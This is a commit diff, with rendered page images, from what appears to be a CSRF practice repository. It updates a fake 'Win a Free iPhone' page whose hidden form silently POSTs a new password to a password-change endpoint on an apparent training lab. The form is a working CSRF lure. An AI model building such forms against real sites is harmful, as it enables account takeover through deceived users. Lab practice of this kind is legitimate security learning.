

Before and after one commit to tolu-ctrl/csrf, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,11 +1,10 @@
 <html>
 <body>
-<h1>🔥 iPhone 15 Pro Max Giveaway! 🔥</h1>
-<form action="https://labs.hacktify.in/HTML/csrf_lab/lab_4/passwordChange.php" method="POST">
-<input type="hidden" name="new_password" value="remz">
-<input type="hidden" name="confirm_password" value="remz">
-<input type="hidden" name="csrf_token" value="<script>document.write(document.getElementsByName('csrf_token')[0].value);</script>">
-<input type="submit" value="Click Here">
+<h1>Win a Free iPhone 🔥📱!</h1>
+<form action="https://labs.hacktify.in/HTML/csrf_lab/lab_6/passwordChange.php" method="POST">
+   <input type="hidden" name="new_password" value="remz">
+   <input type="hidden" name="confirm_password" value="remz">
+   <input type="submit" value="Claim Now">
 </form>
 </body>
 </html>
```
